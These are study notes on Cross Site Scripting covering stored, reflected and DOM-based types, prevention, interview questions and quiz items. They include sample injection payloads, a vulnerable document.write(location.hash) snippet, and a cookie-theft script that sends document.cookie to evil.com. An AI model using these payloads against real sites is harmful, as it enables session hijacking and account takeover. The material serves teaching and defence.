

# Cross Site Scripting (XSS) Notes

## Introduction

Cross Site Scripting (XSS) is one of the most dangerous and common web application vulnerabilities.

It occurs when attackers inject malicious scripts into trusted websites, which then execute in the victim’s browser.

XSS is part of the OWASP Top security vulnerabilities.

---

# What is XSS?

## Definition

Cross Site Scripting (XSS) is a client-side code injection attack where malicious JavaScript executes inside a victim’s browser.

---

# Basic Working of XSS

## Flow of Attack

1. Attacker injects malicious script
2. Website stores/displays script
3. Victim opens vulnerable page
4. Browser executes attacker script
5. Attacker steals data/session

---

# XSS Attack Process




---

# Why XSS is Dangerous

## Impacts

* Cookie theft
* Session hijacking
* Keylogging
* Fake login pages
* Malware delivery
* Website defacement
* Redirecting users
* Account takeover

---

# Types of XSS

| Type          | Description                       |
| ------------- | --------------------------------- |
| Stored XSS    | Malicious script stored on server |
| Reflected XSS | Script reflected from request     |
| DOM-Based XSS | Vulnerability in client-side DOM  |

---

# 1. Stored XSS (Persistent XSS)

## Definition

Malicious script is permanently stored on the server/database.

---

## Common Locations

* Comment sections
* Forums
* User profiles
* Chat applications

---

## Stored XSS Example

### Attacker Input

```html id="z0c7n8"
<script>alert('Hacked')</script>
```

Stored in database and shown to every visitor.

---

# Stored XSS Illustration


---

# Stored XSS Impact

* Large-scale attacks
* Session theft
* Website-wide compromise

---

# 2. Reflected XSS

## Definition

Malicious script is reflected immediately from user input.

---

## Example URL

```url id="4c65hh"
https://site.com/search?q=<script>alert(1)</script>
```

The server returns the script in response.

---

# Reflected XSS Process

---

# Common Targets

* Search boxes
* Login errors
* Contact forms

---

# Reflected XSS Characteristics

* Requires victim interaction
* Often delivered via phishing links

---

# 3. DOM-Based XSS

## Definition

Occurs entirely in the browser when JavaScript modifies the DOM insecurely.

---

## Example Vulnerable Code

```javascript id="xzx63z"
document.write(location.hash);
```

Malicious URL:

```url id="4hrw10"
https://site.com/#<script>alert(1)</script>
```

---

# DOM-Based XSS Illustration

---

# Difference Between XSS Types

| Feature            | Stored       | Reflected | DOM      |
| ------------------ | ------------ | --------- | -------- |
| Stored on Server   | Yes          | No        | No       |
| Victim Interaction | Not required | Required  | Required |
| Execution Location | Browser      | Browser   | Browser  |
| Severity           | High         | Medium    | High     |

---

# Common XSS Payloads

## Basic Alert

```html id="8f1kyv"
<script>alert(1)</script>
```

---

## Cookie Theft

```html id="5fkx0q"
<script>
document.location=
"http://evil.com/?c="+document.cookie
</script>
```

---

## Image Payload

```html id="rfah2u"

```

---

## SVG Payload

```html id="62kz3d"
<svg onload=alert(1)>
```

---

# Common Injection Points

| Injection Point     | Example       |
| ------------------- | ------------- |
| Search Box          | Reflected XSS |
| Comment Field       | Stored XSS    |
| URL Parameters      | Reflected XSS |
| Chat Messages       | Stored XSS    |
| Client-side Scripts | DOM XSS       |

---

# How Browsers Execute XSS

## Browser Trust Model

Browsers trust scripts coming from trusted websites.

If a website reflects malicious code without filtering, the browser executes it.

---

# Cookies and XSS

## Why Cookies are Targeted

Cookies may contain:

* Session IDs
* Authentication tokens
* User data

---

# Session Hijacking Example

---

# XSS Prevention

# 1. Input Validation

## Validate User Input

Reject:

* Scripts
* Dangerous tags
* Event handlers

---

# 2. Output Encoding

## HTML Encoding

Convert:

```html id="xwllhf"
<script>
```

Into:

```html id="85ohdi"
&lt;script&gt;
```

This prevents execution.

---

# 3. Content Security Policy (CSP)

## CSP Header Example

```http id="8tx6m7"
Content-Security-Policy:
default-src 'self'
```

Limits script execution.

---

# CSP Working


---

# 4. HttpOnly Cookies

## Example

```http id="c7mv7p"
Set-Cookie: sessionid=123;
HttpOnly
```

JavaScript cannot access HttpOnly cookies.

---

# 5. Use Secure Frameworks

Frameworks with built-in escaping:

* React
* Angular
* Vue

---

# 6. Avoid Dangerous Functions

## Dangerous JavaScript Functions

```javascript id="bdp3jp"
eval()
document.write()
innerHTML
```

---

# Safe Alternative

```javascript id="4kc4zv"
textContent
```

---

# 7. Sanitize User Input

Libraries:

* DOMPurify
* OWASP Java Encoder

---

# XSS vs CSRF

| XSS                       | CSRF                           |
| ------------------------- | ------------------------------ |
| Injects malicious scripts | Forces unwanted requests       |
| Targets browser execution | Targets authenticated sessions |
| Requires vulnerable page  | Exploits trust in session      |
| Steals cookies/data       | Performs actions as victim     |

---

# Real-World Examples

| Incident                | Description                |
| ----------------------- | -------------------------- |
| Social Media Worms      | Spread using Stored XSS    |
| Comment Section Attacks | Injected malicious scripts |
| Session Hijacking       | Cookie theft via XSS       |

---

# DOM Terms

| Term        | Meaning                   |
| ----------- | ------------------------- |
| DOM         | Document Object Model     |
| innerHTML   | Inserts HTML content      |
| textContent | Inserts plain text safely |

---

# Secure Coding Practices

## Do

✔ Encode output
✔ Use CSP
✔ Sanitize input
✔ Use HttpOnly cookies
✔ Validate data

---

## Do NOT

❌ Use eval()
❌ Trust user input
❌ Insert raw HTML
❌ Disable browser protections

---

# Testing XSS

## Common Test Payloads

```html id="x42hb8"
<script>alert(1)</script>
```

```html id="7e32h8"

```

```html id="utk87h"
<svg onload=alert(1)>
```

---

# XSS Testing Tools

| Tool       | Purpose                |
| ---------- | ---------------------- |
| Burp Suite | Manual testing         |
| OWASP ZAP  | Vulnerability scanning |
| XSStrike   | XSS testing            |
| BeEF       | Browser exploitation   |

---

# Impact of XSS

| Impact             | Description             |
| ------------------ | ----------------------- |
| Cookie Theft       | Steal session IDs       |
| Session Hijacking  | Take over accounts      |
| Credential Theft   | Capture passwords       |
| Website Defacement | Modify pages            |
| Malware Injection  | Deliver malicious files |

---

# Interview Questions and Answers

## 1. What is XSS?

Cross Site Scripting is a vulnerability where malicious scripts execute in a victim’s browser.

---

## 2. Types of XSS?

* Stored XSS
* Reflected XSS
* DOM-Based XSS

---

## 3. Which XSS is most dangerous?

Stored XSS because it affects multiple users automatically.

---

## 4. What is CSP?

Content Security Policy restricts script execution sources.

---

## 5. What is HttpOnly?

A cookie attribute preventing JavaScript access to cookies.

---

## 6. Difference between XSS and SQL Injection?

* XSS targets browsers
* SQLi targets databases

---

# Important MCQs

## 1.

Which vulnerability executes malicious JavaScript in a browser?

A. SQL Injection
B. XSS
C. CSRF
D. SSRF

✅ Answer: B

---

## 2.

Which XSS type is stored on the server?

A. DOM XSS
B. Reflected XSS
C. Stored XSS
D. Blind XSS

✅ Answer: C

---

## 3.

Which header helps prevent XSS?

A. CSP
B. FTP
C. SMTP
D. DNS

✅ Answer: A

---

## 4.

Which cookie flag protects against JavaScript access?

A. Secure
B. HttpOnly
C. Domain
D. Path

✅ Answer: B

---

## 5.

Which function is dangerous for DOM XSS?

A. textContent
B. innerHTML
C. parseInt
D. split()

✅ Answer: B

---

# One-Liner Revision Points

* XSS executes malicious scripts in browsers
* Stored XSS is persistent
* Reflected XSS requires victim interaction
* DOM XSS occurs client-side
* CSP helps prevent XSS
* HttpOnly protects cookies
* Output encoding is critical
* innerHTML can be dangerous
* XSS can steal sessions
* Input validation reduces risks

---

# Easy Memory Trick

```text id="6ktis9"
SRD
```

* S → Stored XSS
* R → Reflected XSS
* D → DOM-Based XSS

---

# Frequently Asked Exam Topics

* Types of XSS
* Stored vs Reflected XSS
* CSP
* HttpOnly cookies
* DOM XSS
* XSS prevention
* Cookie theft
* Secure coding practices
